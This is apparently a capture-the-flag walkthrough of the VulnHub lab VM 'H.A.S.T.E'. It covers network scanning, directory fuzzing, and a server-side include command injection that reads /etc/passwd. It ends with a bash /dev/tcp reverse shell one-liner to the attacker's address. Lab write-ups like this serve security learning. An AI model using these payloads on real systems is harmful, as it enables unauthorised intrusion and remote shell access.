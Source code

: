 # H.A.S.T.E

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.134	00:0c:29:b3:82:58	VMware, Inc.
192.168.127.254	00:50:56:f3:36:94	VMware, Inc.
```

The IP address is `192.168.127.134`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p- -T4 -v 192.168.127.134

Nmap scan report for www.convert.me (192.168.127.134)
Host is up (0.0023s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:B3:82:58 (VMware)
```

only port 80 is open, so let's navigate it

at the same time i started fuzzing the page :

```bash
root@kali: ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.127.134/FUZZ

index                   [Status: 200, Size: 35, Words: 4, Lines: 2, Duration: 1ms]
images                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 1ms]
pages                   [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 5ms]
layout                  [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2ms]
robots                  [Status: 200, Size: 33, Words: 3, Lines: 3, Duration: 2ms]
ssi                     [Status: 200, Size: 802, Words: 122, Lines: 11, Duration: 5ms]
licence                 [Status: 200, Size: 5004, Words: 617, Lines: 81, Duration: 1ms]
                        [Status: 200, Size: 6851, Words: 744, Lines: 117, Duration: 2ms]
server-status           [Status: 403, Size: 303, Words: 22, Lines: 12, Duration: 2ms]
```

checking different part of the site led to nothing except `/index` and `/ssi` which are some how a tip :

- from `/ssi` we see that some kind of directory listing is happening and looks like server side injection

- from `/index` we see `<--#exec cmd="cat /etc/passwd" --> ` which looks like command injection

now we may look for some injection point to test our theory for command injection

the only point to enter something is in the main page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0df53559-3a57-46b4-a877-ba98f3852e72)

i entered a similar payload like `<!--#exec cmd="cat /etc/passwd" -->` and it worked 

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/7356ab82-8f9f-4cff-9033-c49c98110b97)

## 3.Gaining Shell

Just use a reverse shell to get it :

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.127.128/4444 <&1'
```





